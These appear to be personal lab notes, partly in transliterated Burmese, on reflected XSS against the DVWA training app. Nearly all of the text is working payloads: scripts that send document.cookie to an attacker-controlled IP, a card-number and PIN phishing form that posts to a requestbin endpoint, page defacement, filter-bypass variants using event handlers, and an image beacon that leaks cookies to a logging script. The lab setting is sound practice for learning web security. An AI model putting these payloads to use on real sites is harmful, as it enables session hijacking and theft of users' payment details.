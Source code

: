 
<script>alert(document.domain)</script>       

<script>alert(document.cookie)</script>

=> document.cookie      => cookie ko check dar
=> document.cookie="victim cookie";
=>reload it again  
#DONE 


----------------------------------
Simple Cookies stolen

<script>window.location="https://www.google.com";</script>

192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<script>window.location="http://192.168.99.116/?aaaaaa=";</script>  => aaaa ko pot lite dal

192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<script>window.location="http://192.168.99.116/?cookie="%2bdocument.cookie;</script>  => + ko encode yin  %2b     => real stolen loke dar

### server side mar 
tail -f /var/log/apache2/access.log     => log net param ko phan mal

![[Pasted image 20230108183511.png]]


<script>document.getElementsByClassName('vulnerable_code_area')[0].innerHTML="I have been Hacked!"</script>     => to phishing attack

I got class name form i wann change div-> class

<script>document.getElementsByTagName('body')[0].innerHTML="HACKED!"</script>  => i changed the whole body
-----
=> phishing payload 
<script>document.getElementsByClassName('vulnerable_code_area')[0].innerHTML=' <form action="http://192.168.99.116/">Please update your card before 2023 <br><br><input type="text" name="cardNumber" placeholder="Enter your card number"><input type="password" name="pin" placeholder="PinCode"><input type="submit" name=""></form>'</script>

=> and then i also watch in web access log like that

tail -f /var/log/apache2/access.log

----------------------------------------------
We can take real web server from requst bin site ****

<script>document.getElementsByClassName('vulnerable_code_area')[0].innerHTML=' <form action="https://eoxt7tnceij7ygt.m.pipedream.net">Please update your card before 2023 <br><br><input type="text" name="cardNumber" placeholder="Enter your card number"><input type="password" name="pin" placeholder="PinCode"><input type="submit" name=""></form> '</script>

! Here is our phishing link

![[Pasted image 20230108230906.png]]

=> I used https server from requestbin  => to get web request

![[Pasted image 20230108230756.png]]



---------------------------

 <sCript>alert('xss');</script>     => Character ban 

192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<h1 onmouseover=alert(1);>Zello</h1>  => script tag ko ban 

192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<img src=x onerror=alert('xss');>   => no need  user action


192.168.99.116/DVWA/vulnerabilities/xss_r/?name=<svg/onload=prompt(2)>   => onerror and alert ko ban 



------------
<script>document.write('Hello<img src="http://192.168.2.110/log.php?lol=' + document.cookie+'" width="0" height="0">');</script>

-----------------




